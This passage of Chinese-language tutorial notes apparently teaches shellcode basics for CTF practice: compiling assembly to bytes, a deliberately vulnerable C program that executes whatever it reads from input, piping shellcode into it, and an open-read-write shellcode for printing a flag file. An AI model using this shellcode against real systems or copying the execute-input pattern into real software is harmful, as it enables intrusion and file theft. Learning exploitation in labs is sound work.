     ```
   使该汇编程序在c中调用
   ```cpp
   //首先编译上面的汇编程序
   ·nasm a.asm -o a.o -felf32
   //将a.o转化为16进制文件
   ·objcopy -O binary a.o code
   ·xxd -i code
   ·xxd -i code > code.h        //转化为头文件
   //编写和运行C文件
   ·#include "code.h"
    typedef int (*CODE)();      //定义一个返回值为int，不带参数的函数指针
    int main()
    {
    	((CODE)code)();
    }
   //编译
   ·gcc test.c -o test -m32 -zexecstack
   //再编写一个程序vul.c，编译一下
   ·#include<unistd.h>
    char code[200];
    typedef int (*CODE)();
  
    int main()
    {
           read(0,code,100);
           ((CODE)code)();
           return 0;
    }
   //将scode的输出作为输入传给vul
   ·(cat scode;cat) | ./vul

   ```
   在很多时候我们不能直接拿到shell，尤其是在做CTF的时候，Flag会保存在一个文件中，那么此时我们需要：
   Open这个文件
   Read这个文件
   Write这个文件
   ```avrasm
   //写一个OWR的汇编程序（参照上例）
    jmp file 
    open:
    	pop ebx
    	xor eax,eax
    	mov al,5           //open操作
    	xor ecx,ecx
    	int 0x80

    	mov ebx,eax
    	mov al,3           //read操作
    	mov ecx,esp
    	mov dl,0x30
    	int 0x80

    	mov al,4           //write操作
    	mov bl,1
    	mov dl,0x30
    	int 0x80

    	xor eax,eax
    	inc eax            //exit操作
    	int 0x80

    file:
    	call open
   ```
